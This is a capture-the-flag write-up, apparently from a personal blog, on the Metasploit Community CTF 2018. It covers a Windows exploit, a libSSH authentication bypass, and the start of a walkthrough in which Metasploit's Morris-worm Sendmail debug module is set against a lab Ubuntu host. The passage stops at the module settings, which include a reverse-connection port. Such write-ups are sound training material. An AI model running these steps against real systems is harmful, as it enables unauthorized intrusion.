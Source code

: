 Example screenshot below shows me successfully exploiting the Windows server and gaining access on it then using RDP to look for available flags.

![](https://i.imgur.com/ZX1A2Gj.png){: .mx-auto.d-block :}

Exploiting the Windows server was quite a challenge for me as it was my first time being able to successfully develop an exploit for a running vulnerable service on a Windows server in a CTF (usual CTFs has this type which is categorized as Pwn but it is more on Linux binaries not on Windows). It was also kind of a test for me in terms of what I learned on Windows exploitation development as I just recently acquired the [Offensive Security Certified Expert (OSCE) certification](https://www.youracclaim.com/badges/c005e433-d716-44a2-a157-8e1a522d657c).

In summary, it is needed to use the Kali Linux instance in order to connect and hack your way to find flags on both target Windows and Linux server which in my opinion, the CTF is more geared towards penetration testing and I did enjoyed participating on it.

It is also quite cool as my video [libSSH Authentication Bypass Exploit (CVE-2018-10933) Demo](https://www.youtube.com/watch?v=ZSWQjmfcn4g) contains a direct exploit to gain root access on port 2222 on the Ubuntu instance. A free root shell for me as I know how to exploit it.

A huge thanks to the whole Metasploit Community CTF 2018 organizers and sponsors for making the CTF happen. Learned a lot participating on it.
## 2 of Diamonds Write-Up
Below is the walkthrough on how was I able to get the 2 of Diamonds card.

![](https://i.imgur.com/MWVxNNq.png){: .mx-auto.d-block :}

**Note:** Flags for this event is the MD5 hash of the card image, meaning to say the card data should remain intact and unchanged. This verifies that actual card image was acquired.

Running an nmap scan on the vulnerable Ubuntu server revealed that it has quite a few ports open on it.

For this we would concentrate on **port 25 (smtp service)** and **port 79 (finger service)** as both will lead to the 2 of diamonds card.

![](https://i.imgur.com/g487rxJ.png){: .mx-auto.d-block :}

The port 25 (smtp service) was found running **Sendmail 5.51/5.17** which seems quite odd as conducting research on the Sendmail version shows that the version is really old **(1980's)**.

From it available old Sendmail exploits were researched which led to finding [Morris Worm sendmail Debug Mode Shell Escape](https://www.rapid7.com/db/modules/exploit/unix/smtp/morris_sendmail_debug), a vulnerability exploited by the Morris worm in 1988-11-02. The timeline for the vulnerability seems to match the archaic Sendmail version.

Metasploit was used since module is already available on it.

~~~
use exploit/unix/smtp/morris_sendmail_debug

set RHOSTS 172.16.4.133

set LHOST 172.16.4.132

set LPORT 4444
~~~
